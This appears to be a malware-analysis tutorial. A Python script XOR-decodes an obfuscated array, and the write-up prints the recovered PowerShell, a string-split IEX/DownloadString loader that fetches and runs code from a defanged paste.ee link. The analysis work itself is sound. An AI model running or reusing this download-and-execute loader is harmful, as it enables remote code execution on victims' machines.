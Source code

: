 
```python

# Let passs the original obfuscated char array in "char_array"
char_array = [62, 72, 39, 61, 83, 127, 66, 50, 84, 127, 61, 33, 62, 72, 95, 58, 39, 58, 62, 72, 49, 61, 77, 55, 85, 88, 80, 61, 33, 62, 72, 95, 94, 58, 39, 58, 62, 72, 95, 49, 61, 127, 89, 78, 58, 84, 127, 78, 52, 77, 61, 33, 62, 74, 91, 89, 39, 61, 127, 88, 89, 86, 61, 33, 62, 98, 98, 58, 39, 58, 62, 74, 91, 89, 49, 61, 83, 127, 84, 61, 33, 62, 72, 85, 58, 39, 58, 62, 98, 98, 49, 61, 78, 51, 52, 94, 85, 77, 84, 86, 85, 61, 33, 62, 96, 96, 39, 61, 85, 90, 42, 50, 60, 50, 61, 61, 114, 110, 110, 106, 105, 32, 53, 53, 106, 123, 105, 110, 127, 52, 127, 127, 53, 104, 53, 40, 92, 94, 96, 126, 53, 42, 61, 61, 51, 61, 52, 72, 127, 74, 86, 91, 89, 127, 50, 61, 85, 90, 42, 50, 60, 61, 54, 61, 91, 94, 73, 78, 72, 83, 84, 93, 61, 51, 33, 115, 127, 98, 50, 62, 72, 95, 94, 49, 62, 72, 85, 49, 62, 96, 96, 51]

# Beecuase we know that the XOR operation with 0x1a so we use that to decode the chars.
decoded_chars = [chr(c ^ 0x1a) for c in char_array]

# We then join the characters to form the string together
decoded_command = ''.join(decoded_chars)

# Hopefully if the code work, we then specify the output file
output_file = "deobfuscated_powershell_command_1.txt"

# Write the deobfuscated command to the file
with open(output_file, "w") as file:
    file.write(decoded_command)

print(f"Deobfuscated PowerShell command saved to {output_file}")
```


In the above code, We will decode a PowerShell command that has been obfuscated using an XOR operation with the value **`0x1a`** as discovered in the main source code. 

First, the line **`decoded_chars = [chr(c ^ 0x1a) for c in char_array]`** processes an array of numerical values called **`char_array`**, which contains the original obfuscated character values. For each number **`c`** in this array, the code applies the XOR operation with **`0x1a`** (which is 26 in decimal). The result of this operation is then converted to a character using the **`chr()`** function, and these characters are stored in the list **`decoded_chars`**.

Next, the line **`decoded_command = ''.join(decoded_chars)`** concatenates all the characters in the **`decoded_chars`** list into a single string. This string represents the decoded PowerShell command.

The variable **`output_file`** is set to **`"deobfuscated_powershell_command_1.txt"`**, specifying the name of the file where the decoded command will be saved because we do not known how long the results will be.


## Results 


We get some intresting results from the python code like this;

```powershell

$R='IeX(Ne';$RE = $R+'W-OBJ';$RED = $RE+'eCT NeT.W';$PAC='eBCL';$xx = $PAC+'IeN';$RO = $xx+'T).DOWNLO';$zz='O@0(&(''hxxps://paste.ee/r/2FDzd/0'')'.RePLACe('O@0(&','ADSTRING');iex($RED+$RO+$zz)

```
